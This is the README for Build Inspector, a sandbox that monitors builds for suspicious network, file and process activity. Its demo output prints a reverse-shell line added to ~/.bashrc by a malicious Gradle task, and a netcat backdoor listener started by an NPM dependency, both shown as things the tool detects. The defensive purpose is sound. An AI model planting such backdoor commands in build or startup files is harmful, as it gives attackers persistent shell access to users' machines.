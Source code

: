 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a forensic sandbox for buliding source code and gives insight into what's happening during the build of a project. It's language and build system agnostic and is capable of inspecting network activities, file system changes, and running
processes. All build operations happen in a sandboxed environment without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both Ruby and Vagrant installed, go ahead and install
the Sahara plugin, bundler and this project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector.git
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage Vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
Vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_template.yml config.yml
./inspector https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_template.yml config.yml
./inspector https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings Google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_template.yml config.yml
./inspector https://github.com/jsyeo/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

The tool monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add an
`config.yml` in the repository. The `config.yml' file is simply
a YAML file that looks like this:

```
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

